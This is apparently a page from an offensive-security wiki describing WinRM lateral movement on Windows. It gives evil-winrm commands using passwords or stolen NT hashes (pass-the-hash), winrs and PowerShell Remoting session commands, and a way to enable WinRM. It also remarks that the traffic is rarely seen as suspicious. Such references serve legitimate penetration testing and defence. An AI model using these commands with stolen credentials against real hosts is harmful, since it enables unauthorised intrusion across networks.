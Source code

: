```yaml
---
label: WinRM
subLabel: (winrs, PS Remoting)  
---
```


# Windows Remote Managament (WinRM) for Lateral Movement

> **Requirements**:
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * WinRM enabled on target host (enabled by default on Windows Server, disabled by default on client Windows).
> * WinRM allowed on firewall (allowed by default).

WinRM is enabled by default on Windows Server 2012 and above. It's disabled by default on client Windows. All of the WinRM communication is over a single port (5985/TCP for HTTP, 5986/TCP for HTTPS).  Logon via WinRM is of the **Network type** (no reusable credentials). However, in Windows built-in tooling there's a way to delegate credentials to established session (below). By default, if you want to use WinRM, you need to be a **local administrator** on the target machine.

Linux:

```bash
# Using password
evil-winrm -i $host -u $username -p $password

# Using NT hash
evil-winrm -i $host -u $username -H $nt_hash

# TODO: Using Kerberos TGT
```

Windows ([winrs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs)):

> **IMPORTANT**: Using `winrs` the `-r` parameter must be provided as **hostname**, not an IP address.  

```powershell
# Using password
winrs -r:$hostname -u:$domain\$username -p:$password "cmd.exe"

# Using Kerberos TGT (in-memory)
winrs -r:$hostname "cmd.exe"
```

{/* TODO: winrs /allowdelegate */}

## PowerShell Remoting

Powershell has built-in ability to run commands remotely on different machines - so-called PowerShell Remoting feature. It's achived using WinRM protocol under the hood. It's commonly used in enterprise management tasks so it's not very suspicious.

Windows:

```powershell
# Using password
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credentials = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername $host -Credential $credentials

# Using Kerberos TGT (in-memory)
Enter-PSSession -ComputerName $host
```

{/* TODO: Powershell Remoting with CredSSP */}

## Enable WinRM with PowerShell

If you have administrative access to the machine (e.g. via SmbExec or RDP) you can activate WinRM with PowerShell.

```powershell
# All configuration at once (it might take a while)
Enable-PSRemoting
```

## Resources

* [Doctor Scripto, _Enable PowerShell "Second-Hop" Functionality with CredSSP_](https://devblogs.microsoft.com/scripting/enable-powershell-second-hop-functionality-with-credssp/)
* [Microsoft, _Making the second hop in PowerShell Remoting_](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.4)
